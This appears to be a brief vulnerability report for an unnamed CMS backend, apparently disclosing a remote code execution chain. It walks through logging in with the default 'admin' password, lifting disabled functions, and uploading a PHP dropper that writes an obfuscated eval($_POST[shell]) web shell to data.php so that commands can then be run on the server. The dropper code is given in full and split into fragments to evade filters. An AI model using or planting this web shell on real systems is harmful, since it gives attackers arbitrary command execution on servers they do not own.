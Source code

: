 1. Use the default account password admin to log in to the backend. Currently, the latest version (August 15, 2023)
2. To remove system disabled functions
3. Upload Payload at the file upload location:
```php
<?php
$fp=fopen('data.php','w');
fwrite($fp,'<?php ');
fwrite($fp,'eva');
fwrite($fp,'l($_PO');
fwrite($fp,'ST[');
fwrite($fp,'shell])?>');
fclose($fp);
echo 'ok';
?>
```

4. Accessing Payload
5. A Trojan file will be generated in the directory to access executable commands

There is a detailed process in the usage details.pdf




